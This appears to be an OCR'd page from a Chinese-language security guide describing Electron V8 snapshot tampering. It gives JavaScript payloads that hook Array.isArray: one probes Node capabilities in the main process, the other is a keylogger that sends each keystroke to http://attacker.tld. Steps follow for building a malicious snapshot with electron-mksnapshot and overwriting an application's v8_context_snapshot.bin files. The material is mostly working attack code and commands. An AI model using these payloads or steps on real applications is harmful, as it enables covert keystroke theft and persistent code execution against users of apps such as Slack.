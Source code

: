 
示例 gadget：一次性探测 main 进程的 Node 能力
```js
const orig = Array.isArray;

Array.isArray = function() {
// Defer until we land in main (has Node process)
try {
if (!process || !process.pid) {
return orig(...arguments);
}
} catch (_) {
return orig(...arguments);
}

// Run once
if (!globalThis._invoke_lock) {
globalThis._invoke_lock = true;
console.log('[payload] isArray hook started ...');

// Capability probing in main
console.log(`[payload] unconstrained fetch available: [${fetch ? 'y' : 'n'}]`);
console.log(`[payload] unconstrained fs available: [${process.binding('fs') ? 'y' : 'n'}]`);
console.log(`[payload] unconstrained spawn available: [${process.binding('spawn_sync') ? 'y' : 'n'}]`);
console.log(`[payload] unconstrained dlopen available: [${process.dlopen ? 'y' : 'n'}]`);
process.exit(0);
}
return orig(...arguments);
};
```
Renderer/browser-context 数据窃取 PoC（例如 Slack）
```js
const orig = Array.isArray;
Array.isArray = function() {
// Wait for a browser context
try {
if (!alert) {
return orig(...arguments);
}
} catch (_) {
return orig(...arguments);
}

if (!globalThis._invoke_lock) {
globalThis._invoke_lock = true;
setInterval(() => {
window.onkeydown = (e) => {
fetch('http://attacker.tld/keylogger?q=' + encodeURIComponent(e.key), {mode: 'no-cors'})
}
}, 1000);
}
return orig(...arguments);
};
```
操作流程
1) 编写 payload.js，覆写一个常见的内置函数（例如 Array.isArray），并可选地针对每个 isolate 做分支。
2) 在不包含 Chromium 源代码的情况下构建 snapshot：
- npx -y electron-mksnapshot@37.2.6 "/abs/path/to/payload.js"
3) 覆盖目标应用的 snapshot 文件：
- v8_context_snapshot.bin (always used)
- browser_v8_context_snapshot.bin (if the LoadBrowserProcessSpecificV8Snapshot fuse is used)
4) 启动应用；每当调用所选的内置函数时，gadget 将被执行。
